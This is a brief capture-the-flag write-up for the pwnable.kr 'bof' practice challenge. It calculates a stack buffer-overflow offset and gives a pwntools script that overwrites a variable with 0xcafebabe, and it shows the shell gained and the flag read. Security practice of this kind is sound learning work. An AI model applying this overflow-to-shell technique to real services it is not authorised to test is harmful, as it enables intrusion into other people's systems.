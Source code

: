 ![](2022-07-25-18-09-30.png)
we see how many bytes we need to write:
14*4*'c':
cccccccccccccccccccccccccccccccccccccccccccccccccccccccc
in order to see big or little endian we replace the last c with abcd and add an extra char just in case something weird is going on.
![](2022-07-25-18-13-56.png)
after examining the last space again it is working as it should.
now we only have to put in 13*4'c'+'\xbe\xba\xfe\xca'

Exploit script:

```from pwn import *
inp=remote('pwnable.kr', 9000)

inp.send( 13*4*'c'+'\xbe\xba\xfe\xca')
inp.interactive()
```  


Exploitation looks as follows:


``` [+] Opening connection to pwnable.kr on port 9000: Done
/home/kali/Desktop/pwnreq.py:4: BytesWarning: Text is not bytes; assuming ISO-8859-1, no guarantees. See https://docs.pwntools.com/#bytes
  inp.send( 13*4*'c'+'\xbe\xba\xfe\xca')
[*] Switching to interactive mode```

```$ ls
$ ls -la
total 22136
drwxr-x---   3 root bof      4096 Sep  3  2021 .
drwxr-xr-x 116 root root     4096 Nov 11  2021 ..
d---------   2 root root     4096 Jun 12  2014 .bash_history
-r-xr-x---   1 root bof      7348 Sep 12  2016 bof
-rw-r--r--   1 root root      308 Oct 23  2016 bof.c
-r--r-----   1 root bof        32 Jun 11  2014 flag
-rw-------   1 root root 22626482 Jul 25 11:17 log
-rw-r--r--   1 root root        0 Oct 23  2016 log2
-rwx------   1 root root      760 Sep 11  2014 super.pl
$ cat flag
daddy, I just pwned a buFFer :)
```
